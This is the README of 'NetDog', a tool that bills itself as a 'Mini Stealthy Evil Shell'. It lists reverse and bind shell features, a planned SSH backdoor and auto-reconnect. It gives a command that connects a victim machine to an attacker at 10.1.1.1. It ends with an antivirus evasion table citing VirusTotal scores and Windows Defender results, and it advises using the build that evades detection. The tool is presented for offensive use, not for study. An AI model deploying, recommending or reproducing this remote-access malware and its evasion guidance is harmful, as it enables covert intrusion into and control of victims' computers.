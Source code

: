 # NetDog
Mini Stealthy Evil Shell

## Roadmap
- Reverse Shell
    - [x] TCP
    - [ ] UDP
    - [ ] HTTP/S
    - [ ] ICMP
- Bind Shell
    - [x] TCP
    - [x] UDP
- Others
    - [ ] IPv6
    - [ ] Encryption
    - [x] Auto reconnect
    - [ ] SSH backdoor server

## Choosing binary
- Always choose the one without upx
- There are only 2 types: `nd` (linux/amd64) `nd.exe` (windows/amd64)

## Reverse shell
```
+------------+            +------------+
|            |            |            |
|   victim   +------------>  attacker  |
|  (netdog)  |            |  10.1.1.1  |
|            |            |            |
+------------+            +------------+
```
```bash
./nd -host 10.1.1.1 # connect to attacker port 1234
```

## AV status
| type | size | score | windows defender |
| - | - | -| - |
|without upx | 2.2 MB|[4/69](https://www.virustotal.com/gui/file/b042c2498ab6ee36ce998842d4ed4592d46f55026677f1f6e750edf7b6a2411d/detection)| pass|
|with upx | 663 KB|[6/69](https://www.virustotal.com/gui/file/b6f9b09b20cda55d3e87d4f3c74971bffa65781c297ea4742c5987cc69b9b391/detection)| not pass|